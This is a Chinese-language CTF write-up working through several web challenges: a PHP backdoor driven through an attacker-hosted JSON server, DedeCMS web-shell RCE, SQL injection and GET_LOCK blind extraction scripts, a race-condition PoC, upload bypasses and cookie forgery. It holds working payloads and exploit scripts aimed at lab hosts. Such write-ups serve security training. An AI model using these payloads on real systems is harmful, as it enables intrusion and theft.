




# 爱い窒息、痛（代码审计）

## 0x01 路径遍历

打开地址看到路径遍历：


在upload文件夹下发现后门和其源码


## 0x02 后门审计

格式化后，进行代码审计

```php
<?php
$a = isset($_POST['pass']) ? trim($_POST['pass']) : '';
if ($a == '') {
    echologin();
} else {
    chkpass($a);
    helloowner($a);
}
function chkpass($a) {
    // UA是md5(POST['pass'])
    if (stripos($_SERVER['HTTP_USER_AGENT'], md5($a)) === false) {
        echofail(1);
    }
    return true;
}
function helloowner($a) {
    // 这里产生一个url
    $b = gencodeurl($a);
    // 从url获取文件内容，SSRF
    $c = file_get_contents($b);
    if ($c == false) {
        echofail(2);
    }
    $d = @json_decode($c, 1);
    if (!isset($d['f'])) {
        echofail(3);
    }
    // CodeInjection, may cause RCE, e.g.,{"f":"system","d":"ls"}
    $d['f']($d['d']);
}
function gencodeurl($a) {
    $e = md5(date("Y-m-d"));
    if (strlen($a) > 40) {
        $f = substr($a, 30, 5);
        $g = substr($a, 10, 10);
    } else {
        $f = 'good';
        $g = 'web.com';
    }
    $b = 'http://'.$f.$g; // url=http://pass[30:35]+pass[10:20], i.e.,url<=15
    return $b;
}
function echofail($h) {/*...*/}
function echologin() {/*...*/} 
?>
```

其首先检查UA是否等于md5(POST['pass'])，接着取pass参数的两部分（pass长度要求大于40），组装成一个url，从该url获取一个json，再从json中的f变量获取函数名，d变量获取参数，并执行。

## 0x03 构造恶意json

按之前分析，最省事的方法是在自己服务器上一起个80服务，然后返回恶意json

```python
from flask import Flask,jsonify

app=Flask(__name__)

@app.route('/', methods=['GET'])
def srv():
    resp=dict(f="system",d="ls")
    return jsonify(resp), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

## 0x04 后门利用

最后一步，构造后门请求。首先，假设我服务器是216.126.239.124

先生成pass参数：

```python
In [1]: url="216.126.239.124"

In [2]: _pass='a'*10+url[5:15]+'b'*10+url[:5]+'c'*10

In [3]: _pass
Out[3]: 'aaaaaaaaaa26.239.124bbbbbbbbbb216.1cccccccccc'
```

再生成UA：

```
In [4]: import hashlib

In [5]: hashlib.md5(_pass.encode('ascii')).hexdigest()
Out[5]: '98a36c28cf36c4d8eeb8055a3538562e'
```

尝试发送payload

```
curl http://114.55.36.69:8020/upload/dama.php -X POST -H "User-agent: 98a36c28cf36c4d8eeb8055a3538562e" -d 'pass=aaaaaaaaaa26.239.124bbbbbbbbbb216.1cccccccccc'
```

可以看到payload生效了：


找一下flag，需要修改我们服务器上的payload


然后找到目录`/var/www/html/flag.php`，cat得到flag：


# dedecms(1day)

## 0x00 信息收集

打开是一个用织梦CMS写的网站，拉到最下面看到版本疑似是v5.7sp2，想到织梦CMSV5.7SP2后台存在代码执行漏洞，详情见https://www.freebuf.com/vuls/164035.html

## 0x01 弱密码

访问 `/dede/login.php`，看到管理登录页面，这里存在弱密码： admin:admin


## 0x02 代码审计

 todo

## 0x02 漏洞利用

第一步，`GET /dede/tpl.php?action=upload`，获取csrftoken


第二步，`GET /dede/tpl.php?filename=anemone.lib.php&action=savetagfile&content=%3C?php%20var_dump(system($_GET['x']));?%3E&token={csrf_token}`，上传一句话

第三步，`GET /include/taglib/anemone.lib.php?x=ls`，能RCE了：


## 0x04 找flag

`GET /include/taglib/anemone.lib.php?x=find%20/%20-name%20flag`


`GET /include/taglib/anemone.lib.php?x=cat%20/tmp/flagishere/flagishere/flagishere/flag`


（flag被人改了吗？）

# 新的新闻搜索(SQLi)

## 手工注入

尝试一些payload，看到有SQL注入：


但是union,select会被过滤


尝试`/*!select*/`绕过


查库，得到news：



查表，得到admin表：


查列，得到flag列


查记录，得到flag：



## 非预期解

尝试sqlmap

```bash
$ python sqlmap.py -r D:\MEGAsync\mooctest2019exer\new-news.txt  --level 3 --risk 3
sqlmap identified the following injection point(s) with a total of 233 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: word=-2704' OR 5368=5368-- AyLy&number=5

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: word=test' OR SLEEP(5)-- pJuo&number=5
```

# 常规操作（文件包含）
看到`/index.php?url=upload`可以想到url可能存在文件包含/SSRF/URLRedirect问题：



base64decode后得到flag

# 新闻搜索（SQLi）

尝试注入


一步步注入得到flag：

```
word=test' union select 1,2,3 %23&number=5
```

# 一个hackerone的有趣的漏洞的复现的题目（条件竞争）

## 源码泄露

扫描发现源代码泄露：


还原源代码：

```bash
./Dumper/gitdumper.sh http://114.55.36.69:8023/.git/ /temp/hackerone
./Extractor/extractor.sh /temp/hackerone /temp/hackerone
```

## 代码审计

从index.php:11-14看到，如果是管理员，则可以拿到flag：


跟is_admin(class.user.php):

```php
	public function is_admin($username){
        // 检查用户名是否合法
		if(!zUserFile::validate_username($username)){
			return false;
		}
        //获取userfile，其中有一属性为is_admin
		$user = zUserFile::get_attrs($username);
		if($user['is_admin'] === 1)
			return true;
		return false;
	}
	public static function validate_username($username){
		if(strlen($username) > 100)
			return false;
		if (preg_match('/^[_\.\-0-9a-zA-Z]+$/i', $username)) {
			return true;
		} else {
			return false;
		}
	}
	public static function get_attrs($username){
		$users = zUserFile::get_all_users();
		if(!zUserFile::is_exists($username)){
			return false;
		}
		return $users['attrs'][$username];
	}
```

is_admin没有突破口，但是跟流程的时候，发现注册用户有切换用户功能，看一下切换用户逻辑怎么做的：

switch.php：

```php
$userObj = new zUser();
$user = zUserFile::get_attrs($_SESSION['username']);
$users = zUserFile::get_relate_users($_SESSION['username']);
$username = isset($_GET['username'])?trim($_GET['username']):'';
if($username != false && zUserFile::is_exists($username)){
	$to_user = zUserFile::get_attrs($username);
    // 当前用户和目标用户以通过邮箱验证，并且当前用户邮箱与目标用户邮箱一致
	if($user['email_verify'] === 1 && $to_user['email_verify'] === 1 && $user['email'] === $to_user['email']){
		$userObj->login2($username);
		header('Location: ./');
		exit;
	}
}
	public function login2($username){
		$username = trim($username);
		if(!zUserFile::validate_username($username)){
			return false;
		}
		$_SESSION['username'] = $username;
		return true;
	}
```

问题转化为把自己邮箱弄成admin邮箱，继续审计绑定邮箱过程（chgemail.php、class.user.php）：

```php
if(isset($_POST['submit'])){
	if(!chktoken()){
		die('INVALID REQUEST');
	}
	$email = isset($_POST['email'])?trim($_POST['email']):'';
	if($userObj->chg_email($_SESSION['username'], $email))//修改绑定邮箱
		die('SUCCESS');
	else
		die('FAILED');
}
//class.user.php
	public function chg_email($username, $email){
		if(!zUserFile::is_exists($username)){
			return false;
		}
		if($email == false || !zUserFile::validate_email($email)){
			return false;
		}
		$user = zUserFile::get_attrs($username);
		$old_email = $user['email'];
		$emails = zUserFile::get_emails();
		if(isset($emails[$old_email])){
			$emails[$old_email] = array_diff($emails[$old_email], array($username));
			if($emails[$old_email] == false){
				unset($emails[$old_email]);
			}
		}
        // 重绑定邮箱后，email_verify被重置, token被重置
		zUserFile::update_attr($username, 'email_verify', 0);
		zUserFile::update_attr($username, 'email', $email);
		zUserFile::update_attr($username, 'token', '');
		$us = @is_array($emails[$email])?$emails[$email]:array();
		$emails[$email] = array_merge($us, array($username));
		return zUserFile::update_emails($emails);
	}
	public static function validate_email($email){
		if(strlen($email) > 100)
			return false;
		return filter_var($email, FILTER_VALIDATE_EMAIL);
	}
```

也就是说重新绑定邮箱时，需要重新发邮件，然后验证，再看下验证部分代码（verify.php）

```php
if(isset($_GET['token']) && isset($_GET['username'])){
	$token = isset($_GET['token'])?trim($_GET['token']):'';
	$username = isset($_GET['username'])?trim($_GET['username']):'';\
    // token和username不为空
	if($token == false || $username == false){
		die('INVALID INPUT');
	}
	if($userObj->verify_email($username, $token)){
		$userObj->login($username);
		header('location: ./');
		exit;
	}
	
	die('INVALID TOKEN OR USERNAME');
}
//class.user.php::zUser::verify_email
	public function verify_email($username, $token){
		if(!zUserFile::is_exists($username)){
			return false;
		}
		$token = trim($token);
		if($token == false){
			return false;
		}
		$user = zUserFile::get_attrs($username);
		$real_token = $user["token"];
        // 验证提交的token是否和数据库里的用户对应的token一致
		if(md5($real_token) !== md5($token)){
			return false;
		}
        // token被重置
		zUserFile::update_attr($username, 'token', '');
        // Condition Race
        // verify设为1
		zUserFile::update_attr($username, 'email_verify', 1);
		return true;
    }
```

## 条件竞争

审到这里想到条件竞争，如果走正常重置邮箱的流程，程序执行到`zUserFile::update_attr($username, 'token', '');`时，再次请求重置邮箱，由于class.user.php::validate_email()没有检查valid状态，导致新的email被写入，程序再回到`zUserFile::update_attr($username, 'email_verify', 1);`，那么攻击这就可以重置任意邮箱了。

梳理一下思路，也就是：

1. 注册用户验证邮箱
2. 重置邮箱（这里邮箱还写自己的）
3. 收到校验链接
4. 在请求校验链接同时，再次重置邮箱为管理员邮箱（ambulong@vulnspy.com，注册界面出现过），若该步骤在比较token一致--->set(email_verify=1)中间执行，则条件竞争成功。

因此有以下PoC：

```python
#!/usr/bin/env python3
import requests
import threading
HOST = "http://114.55.36.69:8023"
VERIFY_URL = "/verify.php?token=7lGBgYOtvxoW7mRHdsGEFJqr6YMDIJjD&username=admin1"
SESSION="h5evpbu7eclfe0kpfe3fad01q1"

def send_verify():
    res = requests.get(HOST + VERIFY_URL)
    print(res.text)

def reset_email():
    burp0_url = HOST + "/chgemail.php?token=JaX1dpl3"
    burp0_cookies = {"PHPSESSID": SESSION}
    burp0_data = {"email": "ambulong@vulnspy.com", "submit": "Submit"}
    res=requests.post(
        burp0_url,
        cookies=burp0_cookies,
        data=burp0_data)
    print(res.text)

def poc():
    t1 = threading.Thread(target=send_verify, args=())
    t2 = threading.Thread(target=reset_email, args=())
    t1.start()
    t2.start()
    t1.join()
    t2.join()

if __name__ == '__main__':
    poc()
```

运行后看到邮箱被修改，切换用户就能拿到flag了


# 奇怪的恐龙特性（PHP）

PHP特性，

1. 参数名为A.A会转变为A_A，

2. 数组>inf

   

3. 数组转换成字符串时会出错，因此结果==0

   

因此有payload：`/?A.A[]=1`

# 新瓶装旧酒（文件上传）

73-81行需要传一个合法zip文件，无法绕过：


接着，92-105行解压zip，并且移动到upload目录下：


要求zip中存在图片后缀的文件，并且不包含".ph"字符，可以通过"x.pHp.jpg"绕过，上传成功：


# sleepcms（SQLi）

敏感路径扫描，发现`/robots.txt`泄露，打开发现提示


以及注入点 `/article.php?id=2`

跑黑名单，发现select、sleep和benchmark都banned，解法是通过GET_LOCK


> GET_LOCK(str,timeout)
> Tries to obtain a lock with a name given by the string str, using a timeout of timeout seconds. A negative timeout value means infinite timeout. The lock is exclusive. While held by one session, other sessions cannot obtain a lock of the same name.

因此尝试`/article.php?id=2' and (get_lock('vvvv',10)) #`可以成功延时，注意到同表做列查询时不需要用select，因此有如下脚本：

```python
import requests
import time
import string
import urllib


def sleepcms():
    base_url = "http://114.55.36.69:8007/article.php?id="
    dic = string.ascii_letters+string.digits+string.punctuation
    flag = ""
    cur = 1
    while True:
        for i in dic:
            payload = "1'/**/and/**/(if(substr(content,{pos},1)='{char}',get_lock('nonce',3),0))/**/#"
            url = base_url+urllib.parse.quote(payload.format(pos=cur,char=i))
            try:
                res = requests.get(url,timeout=2)
            except requests.exceptions.ConnectTimeout:
                break
            except requests.exceptions.ReadTimeout:
                flag += str(i)
                cur += 1
                print(flag)
                break

if __name__ == '__main__':
    sleepcms()
```

运行得到flag：`flagis{Flag{C221e22A28b933f103f0f88caB68b79b}}`，改成小写提交最里面括号的内容


# md5（PHP）

要求`$_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])`，强网杯原题，参考[writeup](https://xz.aliyun.com/t/2232)。

指定param1和param2相同的开头，这里以"1"为例:

```bash
echo 1>init.txt
```

接着使用fastcoll生成具有相同md5的文件：

```bash
λ fastcoll_v1.0.0.5.exe -p init.txt -o 1.txt 2.txt
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: '1.txt' and '2.txt'
Using prefixfile: 'init.txt'
Using initial value: b012cf77f9677e37eea923017fc5e83e

Generating first block: ..
Generating second block: S00....
Running time: 0.641 s
```

将1.txt和2.txt内容进行编码后发送即可的得到flag。


提供代码方便复现：

```php
<?php
function  readmyfile($path){
    $fh = fopen($path, "rb");
    $data = fread($fh, filesize($path));
    fclose($fh);
    return $data;
}
// $text1=$_POST["data1"];
// $text2=$_POST["data2"];

$text1=readmyfile("1.txt");
$text2=readmyfile("2.txt");
echo 'MD51: '. md5($text1);
echo "\r\n";
echo  'URLENCODE '. urlencode($text1);
echo "\r\n";
echo 'URLENCODE hash '.md5(urlencode ($text1));
echo "\r\n";
echo 'MD52: '.md5($text2);
echo "\r\n";
echo  'URLENCODE '.  urlencode($text2);
echo "\r\n";
echo 'URLENCODE hash '.md5( urlencode($text2));
echo "\r\n";
?>
```

# 简单的md5

访问网站源代码，看到提示：


实际上是说，`md5($_POST['data1'])!=md5($_POST['data2'])`，由于没用全等，用`0e`绕过即可：


# （反序列化）

## 0x01 信息泄露

首先，dirsearch发现泄露.idea/workspace.xml文件：


workspace发现更多的文件：



php文件未必能访问，看`/web/robots.txt`:


访问`/web/index.php?r=site/loginuser_1`发现有一段注释：


到Github搜索关键词，能看到更多的提示：


## 0x02 反序列化垂直越权

看提示大概是要用反序列化做垂直越权了：

先抓包登录，然后cookie字段被塞了一个cib字段


考虑到注释里面，sign需要的id，name都是可控的，伪造一个admin的cookie

```php
<?php
$id=1;
$username="admin";
$sign = array(
                    'id'=>$id,
                    'name'=>$username,
                    'sign'=>md5($id.$username),
                );
echo serialize($sign);
echo "\n";
echo urlencode(serialize($sign));
echo "\n";
?>
```

可以看到身份已经成管理员了：


加一条replace给浏览器用：


## 0x03 上传绕过

直接上传.php会被ban，考虑到其容器用的Apache/2.2.15，存在解析漏洞，故上传“.php.jpg”


flag在根目录下：


# game（js）

打开页面是一个贪吃蛇游戏，js写的：


`/js/game.js`代码审计，看到一串颜文字：


console运行，返回假flag，跟进去看匿名函数，得到flag：


# 参考链接

* 2019安恒杯Web安全测试大赛练习赛Writeup，http://flag0.com/2019/09/27/2019%E5%AE%89%E6%81%92%E6%9D%AFWeb%E5%AE%89%E5%85%A8%E6%B5%8B%E8%AF%95%E5%A4%A7%E8%B5%9B%E7%BB%83%E4%B9%A0%E8%B5%9BWriteup/#game

  